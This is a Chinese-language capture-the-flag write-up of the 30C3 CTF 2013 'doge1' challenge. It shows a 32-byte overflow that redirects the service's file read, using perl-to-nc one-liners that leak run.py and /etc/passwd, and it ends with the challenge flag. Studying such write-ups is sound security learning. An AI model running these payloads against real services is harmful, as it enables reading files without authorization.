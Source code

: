 title: 30C3CTF 2013 PWN 100 DOGE1
date: 2013-12-30 21:25
category: pwn
tags: 30c3CTF, bof
slug: 30c3ctf_2013_pwn_100_doge1

這次都沒有人陪打 QQ  
只解兩題 100 分...真慘  
不過這題 100 分，跟另一題的難度也差太多了吧 = =  
* * *

先用 nc 連線過去，要求我們輸入名稱，然後就看到一隻...豬頭?  
提示有兩個指令好用: `feed`, `show`  
`show` 是再印一次豬頭，`feed` 也差不多，奇怪的功能 = =  
![doge1.png]({filename}/images/30c3CTF_2013_doge_1.png)  

假如不輸入 `feed` 或 `show`，試著輸入長字串，毫無反應 Orz  
試試看輸入超長名稱....沒有印出那顆豬頭了 XD  

這題有提供原始程式，資料夾底下有三個檔案:

* ascii\_art\_doge\_color.txt
* doge.so
* run.py

*ascii_art_doge_color.txt* 就是那隻豬頭的 ascii 圖檔  
*run.py* 只有：  

```
#!/usr/bin/env python
import signal
import doge
signal.signal(signal.SIGCHLD, signal.SIG_IGN)
doge.listen("0.0.0.0", 1024)
```

*doge.so* 是編譯過的 linux library  
執行起來，並且輸入長字串看看結果，結果 server 端有噴出錯誤訊息  
>...  
>File "doge.pyx", line 54, in doge.Doge.\_\_str\_\_ (doge.c:1875)  
>IOError: [Errno 2] No such file or directory: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'  

看來是發生 bof 了 XD  
繼續試一下前面塞多少才會蓋到，結果是 "a"x32  
`perl -e 'print "a"x32 . "test"' | nc 0 1024`  
>...  
>File "doge.pyx", line 54, in doge.Doge.__str__ (doge.c:1875)  
>IOError: [Errno 2] No such file or directory: 'testi\_art\_doge\_color.txt'  

試試看能不能成功讀檔：
`perl -e 'print "a"x32 . "run.py\x00"' | nc 0 1024`
>Dogename: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaarun.py#!/usr/bin/env python  
>import signal  
>import doge  
>signal.signal(signal.SIGCHLD, signal.SIG\_IGN)  
>doge.listen("0.0.0.0", 1024)  
>commands: feed, show  

接下來就是猜猜看了...試了幾個檔案像是 *flag* , *flag.txt* , *key* , *key.txt* ...都失敗了 = =  
最後猜到 */etc/passwd*  
![flag.png]({filename}/images/30c3CTF_2013_doge_flag.png)

flag: `30C3_51dd250e0adb864ff40cc40b818852f4`
